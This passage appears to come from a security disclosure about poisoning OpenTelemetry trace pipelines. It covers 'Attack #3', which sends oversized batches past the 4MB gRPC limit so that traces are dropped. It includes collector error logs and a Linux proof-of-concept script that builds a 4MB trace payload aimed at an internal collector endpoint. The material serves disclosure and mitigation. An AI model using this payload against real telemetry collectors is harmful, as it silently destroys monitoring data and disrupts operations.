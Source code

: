 In theory also `transform` processor may mitigate this issue.

### Attack #3 - huge 4MB trace

Default GRPC Golang based server accepts 4MB message size. You need to exceed
this limit in the batch and then whole batch will be rejected and traces dropped
immediately. Example error message in the collector logs from the trace
destination:
```
# Lightstep returns not retryable error - batch is dropped immediately:
"msg":"Exporting failed. The error is not retryable. Dropping data.",
"error":"Permanent error: rpc error: code = ResourceExhausted desc = grpc: received message after decompression larger than max (5194526 vs. 4194304)"

# Cribl returns retryable error - trace is going back to queue to be retried:
"msg":"Exporting failed. Will retry the request after interval.",
"error":"rpc error: code = DeadlineExceeded desc = context deadline exceeded"
```

Linux POC script:
```
export HTTP_TRACE_ENDPOINT=https://internal.collector.tracing-dev.autodesk.com/v1/traces

cat <<EOF > ./hugetrace.json
{
 "resourceSpans": [{
  "resource": {
   "attributes": [{
     "key": "service.name",
     "value": {
      "stringValue": "trace-pipeline-poisoning"
     }
    },
    {
     "key": "payload",
     "value": {
      "stringValue": "$(awk 'BEGIN {while (i++ < 4194304) printf "1"}')"
     }
    }
   ]
  },
  "scope_spans": [{
   "spans": [{
    "traceId": "5661215315a87ad7dd8448b4101a59a9",
    "spanId": "29f50492db6b0ced",
    "name": "demo-operation",
    "kind": 1,
    "startTimeUnixNano": 1631649350122333000,
    "endTimeUnixNano": 1631649350777700000,
    "attributes": [],
    "droppedAttributesCount": 0,
    "events": [{
     "timeUnixNano": 1631649350777700000,
     "name": "fetching-span1-completed",
     "attributes": [],
     "droppedAttributesCount": 0
    }],
    "droppedEventsCount": 0,
    "status": {
     "code": 0
    },
    "links": [],
    "droppedLinksCount": 0
   }]
  }]
```